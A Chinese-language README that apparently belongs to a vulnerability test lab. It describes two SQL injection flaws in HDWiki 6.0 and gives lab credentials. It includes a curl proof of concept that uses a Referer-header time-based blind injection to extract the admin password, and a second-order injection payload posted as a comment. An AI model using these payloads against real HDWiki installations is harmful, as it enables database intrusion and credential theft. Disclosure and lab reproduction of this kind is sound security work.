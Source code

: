 ## 环境说明

* 镜像：src/hdwiki/6.0
  * 后台地址

    http://127.0.0.1/index.php?admin_main

  * 账号/密码：admin/admin123

## HDWiki v6.0 referer注入漏洞

测试镜像

* src/hdwiki/6.0

要求

* PHP < 5.4，开启magic_quote_gpc

影响版本

* hdwiki <= 6.0

参考链接

* [HDWiki v6.0最新版referer注入漏洞](http://www.freebuf.com/vuls/170337.html)

Poc

访问主页并使用任意账号，如admin/admin123登录，在浏览器控制台查看document.cookie获取hd_auth字段。

使用以下命令，将cookie设为获取到的hd_auth，可触发延迟注入。

```shell
curl --cookie "hd_auth=60299rIaUipUYt%2FHhrYjcSBFt%2FDa29IGvtmv9WUFOeC3U%2B4plq90CRpoGfua3Bw3Uj8AyI4h7ZO%2Bz%2BWIQ6LE" --referer "' where if((substr((select password from wiki_user where username='admin'),1,1))!='g',sleep(3),0)#"  "http://docker-ip地址/index.php?user-login"
```



##HDwiki 6.0二次注入漏洞

测试镜像

- src/hdwiki/6.0

影响版本

- hdwiki <= 6.0

参考链接

- [HDwiki二次注入案例分享](http://www.freebuf.com/vuls/175911.html)

Poc

1、使用任意用户登录

2、在任意此条评论以下内容

```
4',(1=sleep(5)),1)#
```

3、点击评论下的举报，理由任意填写，5秒后返回举报成功（触发延迟）